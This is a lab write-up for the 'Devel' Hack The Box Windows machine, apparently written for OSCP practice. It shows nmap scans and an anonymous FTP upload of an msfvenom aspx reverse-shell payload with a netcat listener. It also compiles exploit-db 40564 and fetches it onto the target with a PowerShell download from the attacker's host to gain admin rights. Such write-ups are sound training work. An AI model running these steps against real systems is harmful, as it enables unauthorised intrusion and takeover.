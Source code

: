 Devel
# Overview
The machine I'm going to attempt to exploit is a Windows machine called "Devel". This is one of the OSCP like boxes that has been listed by @TJ_Null on Twitter. Since I'm preparing for my OSCP I'm going to exploit this box without metasploit.

# Reconnaissance 

The IP that is associated with the machine is 10.10.10.5. I'm going to start by running a few nmap scan to determine if I can find a point of entry. 
### ****Scanning****

- **Initial Scan**
	- Command 
	`sudo nmap -sC -sV -T4 -O -oA devel 10.10.10.5`
		- `-sC`: run default nmap scripts
		- `-T4`: Set timing template (higher is faster)
		- `-O`: Detect OS
		- `sV`: detect service version
		- `-oA`: Output all files formats to name "lame"

Running the initial nmap scan showed 9 open ports on the target machine

- **Port 21**: Microsoft ftpd
- **Port 80**: Microsoft IIS httpd 7.5

![initial_scan](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/inital_scan.png)

- **Full Scan**
Now I'm going to run a scan on all ports to see if there are any other entry points.

	- Command 
	`sudo nmap -sC -sV -T4 -O -p- -oA devel_full 10.10.10.40`
		-	`-p-`: Scan all ports
		

We get the same results from the full scan.

![full scan](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/inital_scan.png)

- **UDP Scan**
Now to be extra thorough I'm going to run a UDP scan.

	- Command
	`sudo nmap -sU -T4 -O -p- -oA devel_udp 10.10.10.40`
		- `-sU`: UDP scan

The UDP scan was still running after 5 hours. If we don't gain a foothold in the proceeding steps we will attempt the UDP scan again.

--------------------------------------------
--------------------------------------------
# Enumeration

We saw in our initial scan that the server allows annonymous login on the FTP server. Meaning that anyone can login.

`ftp 10.10.10.5`

![ftp login](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/ftp_login.png)

We can even list the files in the current directory.

![ftp directories](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/ftp_directories.png)

Let's see if we visit these files on the browser

![browser](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/browser.png)

This leads me to believe that the ftp server is uploading files to the root directory of the web server.

I created a test file to see if I was able to upload it to the server and it was succesful.

![test file](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/test_file.png)

We should be able to get a shell with this knowledge.

# Exploitation

We need to generate a payload in order to upload it to the FTP server and execute it in the browser to get a reverse shell. Since this is a windows web server we're going to need to generate our payload as a .aspx file.

`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.15 LPORT=4444 -o devel_shell.aspx `

Now lets put the shell on the server

![put shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/put_shell.png)

Now lets set up out listener

`nc -lvnp 4444`

Now we can execute the file in the browser. We got our shell!

![reverse shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/reverse_shell.png)

# Priviledge Escalation

We have our shell as the user "iis apppool\web". We don't have much priviledge with this account so we're going to need to elevate our priviledges.

![user shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/user_shell.png)

Let's get some more information about this device.

`systeminfo`

The info shows that this machine is on an old version of windows and it have not been updated

Let's Google for exploits on the windows version "Microsoft Windows 7 build 7600"

We found one on exploit db so we should be able to find it in searchploit by searching the vulnerability name.

![priv esc](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/priv_esc.png)

`searchsploit -m 40564`

Now that we have it copied to our directory we need to compile it with the instructions below

![compile instructions](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/compile_instructions.png)

`sudo apt install mingw-w64 `

Now we can compile it using the command listed in the exploit.

`i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`

Now lets set up a quick http server to transfer the file to the machine 

`python -m SimpleHTTPServer 8080`

Since there is no netcat installed on the machine, let use some powershell to grab the file.

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:8080/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

After running that we finally hve the exe file on our target machine 

![exe ontarget](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/exe_ontarget.png)

After executing the file we have admin priviledges!

![admin priv](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/admin_priv.png)

Navigating to babis desktop directory we got the user flag

![user flag](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/user_flag.png)

Navigating to the administrators desktop we got the root directory.

![root flag](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/root_flag.png)
